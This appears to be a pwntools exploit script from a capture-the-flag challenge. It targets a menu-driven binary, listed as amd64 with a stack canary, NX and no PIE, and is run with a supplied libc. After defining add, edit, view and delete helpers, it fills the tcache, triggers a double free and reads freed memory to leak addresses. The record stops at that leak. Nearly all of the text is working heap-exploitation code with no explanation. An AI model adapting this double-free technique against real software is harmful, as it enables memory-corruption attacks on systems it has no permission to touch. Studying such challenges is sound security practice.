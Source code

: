 ```py
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'/home/pwn/lib'

io = start(env={'LD_PRELOAD': './libc.so.6'})

def add(mark, sz, val):
    io.sendlineafter('choice: ', '1')
    io.sendlineafter('mark: ', str(mark))
    io.sendlineafter('comment: ', str(sz))
    io.sendafter('comment: ', val)

def edit(idx, mark, sz, val):
    io.sendlineafter('choice: ', '2')
    io.sendlineafter('index: ', str(idx))
    io.sendlineafter('mark: ', str(mark))
    io.sendlineafter('comment: ', str(sz))
    io.sendafter('comment: ', val)

def view(idx):
    io.sendlineafter('choice: ', '3')
    io.sendlineafter('index: ', str(idx))

def delete(idx):
    io.sendlineafter('choice: ', '4')
    io.sendlineafter('index: ', str(idx))


for i in range(9):
    add(0, 100, b'qwe')

for i in range(7):
    delete(i)


delete(7)
delete(8)
delete(7)

view(7)
x = io.recvline()
log.info(x)
```